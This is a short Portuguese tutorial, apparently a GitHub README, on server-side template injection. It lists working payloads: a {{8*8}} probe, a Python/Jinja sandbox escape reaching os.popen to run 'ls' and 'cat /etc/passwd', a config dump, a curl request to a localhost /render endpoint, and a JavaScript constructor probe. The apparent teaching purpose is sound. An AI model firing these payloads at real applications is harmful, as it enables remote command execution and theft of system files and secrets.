 Para descobrir a vulnerabilidade, primeiro precisamos saber se a aplicação está vulnerável e depois precisamos saber qual é a linguagem do backend.

1) Descobrir se a aplicação é vulnerável.

Inclua em algum campo de input ou na url o código **{{8*8}}**


2) Descobir a linguagem da aplicação.

### Python

**a)** 

`{{'acacio'.upper()}}`

**b)** 

`{{"".__class__.__mro__[1].__subclasses__()[80].__init__.__globals__['sys'].modules['os'].popen("ls").read()}}`

**c)** 

`{{"".__class__.__mro__[1].__subclasses__()[80].__init__.__globals__['sys'].modules['os'].popen("cat /etc/passwd").read()}}`

**d)** 

`{{config}}`

**e)** Digite o comando abaixo no terminal:
```sh
curl -X POST \
-H "Content-Type: application/x-www-form-urlencoded" \
-d "input={{config}}" \
http://localhost:5000/render
```

### JavaScript

**a)** 

`{{_createElementBlock.constructor}}`


